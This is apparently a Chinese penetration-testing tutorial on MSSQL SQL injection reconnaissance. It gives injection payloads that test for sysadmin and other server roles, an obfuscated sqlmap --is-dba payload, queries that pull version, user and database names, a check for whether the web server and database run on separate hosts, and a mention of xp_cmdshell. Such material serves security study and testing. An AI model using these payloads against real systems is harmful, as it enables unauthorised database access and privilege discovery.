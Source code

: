 # 0x00 权限判断

#### 服务器级别

我们可以在docs上面看到 `IS_SRVROLEMEMBER ( 'role' [ , 'login' ] ) `  函数 role 的有效值是用户定义的服务器角色和以下固定服务器角色：

![mysql](./img/1.2.1.png)

返回类型:

返回值|描述
-|-|
0|login 不是 role 的成员。
1|login 是 role 的成员。
NULL|role 或 login 无效，或者没有查看角色成员身份的权限。

最终我们可以构造语句

```
and 1=(select is_srvrolemember('sysadmin'))

and 1=(select is_srvrolemember('serveradmin'))

and 1=(select is_srvrolemember('setupadmin'))

and 1=(select is_srvrolemember('securityadmin'))

and 1=(select is_srvrolemember('diskadmin'))

and 1=(select is_srvrolemember('bulkadmin'))

```



我们在sqlmap中使用 --is-dba 也就是判断的你是否为管理员权限

```
select * from admin where id =1 AND 5560 IN (SELECT (CHAR(113)+CHAR(122)+CHAR(113)+CHAR(107)+CHAR(113)+(SELECT (CASE WHEN (IS_SRVROLEMEMBER(CHAR(115)+CHAR(121)+CHAR(115)+CHAR(97)+CHAR(100)+CHAR(109)+CHAR(105)+CHAR(110))=1) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(118)+CHAR(112)+CHAR(120)+CHAR(113)))

```



#### 数据库级别的角色

```
select IS_MEMBER('db_owner')  

```

![mysql](./img/1.2.2.png)




# 0x01 基本信息

```
@@version // 数据库版本

user  //获取当前数据库用户名

db_name() // 当前数据库名 其中db_name(N)可以来遍历其他数据库

;select user //查询是否支持多语句

```


# 0x02 判断站库分离

```
select * from info where id='1'and host_name()=@@servername;--'

```

最简单的方法，当然你可以调用xp_cmdshell 就可以通过cmd来判断。


通过简单的判断数据库版本，当前用户权限，我们就可以想下一步怎么去做，比如2005的xp_cmdshell 你要知道他的权限一般是system 而2008他是nt authority\network service

# 0x03 文末

#### 本文如有错误，请及时提醒，避免误导他人

BY 404